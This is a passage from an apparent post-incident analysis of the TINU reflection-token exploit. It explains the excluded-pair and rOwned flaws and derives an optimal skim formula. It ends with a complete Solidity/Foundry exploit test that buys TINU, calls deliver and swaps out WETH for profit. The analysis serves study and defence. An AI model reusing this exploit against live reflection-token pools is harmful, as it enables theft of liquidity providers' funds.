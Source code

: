 
In summary, the vulnerability of TINU lies first in not excluding the pair as RFI does. If the pair is excluded, `reflect` will not affect the pair's balance, and the subsequent attack logic cannot be completed. Additionally, there is a vulnerability in the transfer logic, which increases `rOwned` out of thin air, further facilitating the formation of profitable conditions for the attack.

## Exploit

### Reproduce

The previous analysis covered the vulnerabilities in TINU. However, for attackers, there is another question: how many TINU tokens should be used for the reflection to maximize profits, or even to drain all WETH from the pair.

To maximize the value of `skimAmount` in $(7)$, we can simplify it as follows:

$$skimAmount = \frac{rReflect \times (rPair - rReflect)}{rSupply\times(rSupply-rReflect)}\tag{13}$$

Since $rPair > rSupply$, when $rReflect$ approaches $rSupply$, more TINU tokens can be skimmed, and correspondingly, more WETH can be swapped.

Therefore, the `swap` should purchase TINU tokens that are close to the quantity of $rSupply$.

(If you buy more tokens than $rSupply$, according to $(13)$, there will be no profit. Additionally, the `transfer` function will check if the amount is less than `tTotal`, so it will revert.)

The final exploit is as follows.

``` solidity
function testExploit() external {
    uint attackBlockNumber = 16489408;
    vm.rollFork(attackBlockNumber);

    deal(address(weth), address(this), 2000 ether);

    uint256 rTotal = uint256(vm.load(address(tinu), bytes32(uint256(13))));
    uint256 rExcluded = getMappingValue(address(tinu), 3, address(0xC77aab3c6D7dAb46248F3CC3033C856171878BD5));
    uint256 rAmountOut = rTotal-rExcluded;
    uint256 tinuAmountOut = tinu.tokenFromReflection(rAmountOut) - 0.1*10**9;

    (uint reserve0, uint reserve1, ) = tinu_weth.getReserves();
    uint256 wethAmountIn = getAmountIn(tinuAmountOut, reserve1, reserve0);
    emit log_named_decimal_uint("WETH amountIn", wethAmountIn, weth.decimals());
    weth.transfer(address(tinu_weth), wethAmountIn);

    tinu_weth.swap(
        tinuAmountOut,
        0, 
        address(this),
        ""
    );

    tinu.deliver(tinu.balanceOf(address(this)));

    (reserve0, reserve1, ) = tinu_weth.getReserves();
    uint256 wethAmountOut = getAmountOut(tinu.balanceOf(address(tinu_weth))-reserve0, reserve0, reserve1);
    tinu_weth.swap(0, wethAmountOut, address(this), "");
    emit log_named_decimal_uint("Attack profit:", wethAmountOut - wethAmountIn, weth.decimals());
}
```
